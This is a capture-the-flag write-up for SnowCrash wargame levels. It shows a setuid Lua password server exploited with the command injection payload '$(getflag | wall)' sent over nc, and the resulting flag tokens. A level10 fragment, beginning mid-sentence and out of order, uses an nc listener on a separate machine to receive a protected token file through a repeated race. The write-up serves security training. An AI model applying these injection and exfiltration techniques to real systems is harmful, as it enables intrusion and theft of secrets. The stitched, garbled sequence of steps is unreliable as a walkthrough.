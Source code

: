 when we enter we see a single executable with s permits 

```bash
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile

```

Checking that lua exec

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

```

that hash is a decoy the real thing is code injection. with nc

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag | wall)
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 23:44 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..

```

with a base file that is harmless. In a remote window run a listener 
(nc -lvnp 6969) Then in the snow-crash machine in another terminal run 


```bash
./level10 victim.txt 192.168.0.4

```

note you may need to reset the listener and run the code multiple times. 
You may get 

1. Don't have access to file
2. The harmless file sent
3. The token sent

Repeat until you have the desired result


```bash
andres@andres-System-Product-Name:~$ nc -lvnp 6969
Listening on 0.0.0.0 6969
Connection received on 192.168.0.43 42326
.*( )*.
hola
andres@andres-System-Product-Name:~$ nc -lvnp 6969
Listening on 0.0.0.0 6969
Connection received on 192.168.0.43 47442
.*( )*.
hola
andres@andres-System-Product-Name:~$ nc -lvnp 6969
Listening on 0.0.0.0 6969
Connection received on 192.168.0.43 60888
.*( )*.
woupa2yuojeeaaed06riuj63c
```

using this to get the real flag

```bash
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```